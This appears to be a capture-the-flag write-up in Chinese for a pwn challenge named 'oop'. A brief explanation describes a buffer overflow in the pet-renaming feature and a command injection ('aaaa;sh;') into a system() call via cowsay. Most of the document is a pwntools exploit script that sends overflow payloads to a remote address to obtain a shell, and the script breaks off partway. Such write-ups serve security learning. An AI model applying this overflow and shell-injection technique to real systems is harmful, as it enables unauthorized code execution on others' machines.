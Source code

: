 

這題感覺出壞了，有些地方滿硬要的，像是在修改名字的時候很明顯地有一個 bof，可以改到下一個 animal 的 data，因此透過這個方式，可以先得到足夠多的錢，而下一步他的 feature 也提供執行 `system()` 的機制，參數又是可以透過 bof 竄改到，`system()` 的參數若是  `AAA;BBB;CCC`，則即使 AAA 失敗，還是會執行 BBB 以及 CCC，不過因為 cowsay 需要接收參數，因此還是要放一個字串 (即使不存在)，最後將 animal->type 改成 `aaa;sh;` 就能 get shell，exploit:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']


animals = 0x4050f0

info(f"""
animals: {hex(animals)}
""")

r = remote('193.57.159.27', 25295)
# r = process('./oop')
# gdb.attach(r, """
# # b *Animal::SetName
# # b *0x401d73
# """)

"""
1) List Animals
2) Act on Animal
3) Buy New Animal
4) Buy translator (1000c)
"""

# get money * 1
r.sendlineafter('> ', '3')
r.sendlineafter('> ', '1')
r.sendlineafter('What will you name your new animal? ', 'fuck')
r.sendlineafter('> ', '3')
r.sendlineafter('> ', '2')
r.sendlineafter('What will you name your new animal? ', 'fuck')
r.sendlineafter('> ', '2')
r.sendlineafter('Which animal? ', '0')
r.sendlineafter('> ', '3')
input('1')
pl = b"\xaa"*(0x4 + 0x10) + p64(0) + p64(0x41) + p64(0x404d28) + \
    b"aaaa;sh;"[::-1] + p64(0) + p32(0x08001000)
r.sendline(pl)
r.sendlineafter('> ', '2')
r.sendlineafter('Which animal? ', '1')
r.sendlineafter('> ', '1')

# get money * 2
r.sendlineafter('> ', '3')
r.sendlineafter('> ', '2')
r.sendlineafter('What will you name your new animal? ', 'fuck')
r.sendlineafter('> ', '2')
r.sendlineafter('Which animal? ', '0')
r.sendlineafter('> ', '3')
input('2')
pl = b"\xaa"*(0x4 + 0x10) + p64(0) + p64(0x41) + p64(0x404d28) + \
    b"aaaa;sh;"[::-1] + p64(0) + p32(0x08001000)
r.sendline(pl)
r.sendlineafter('> ', '2')
```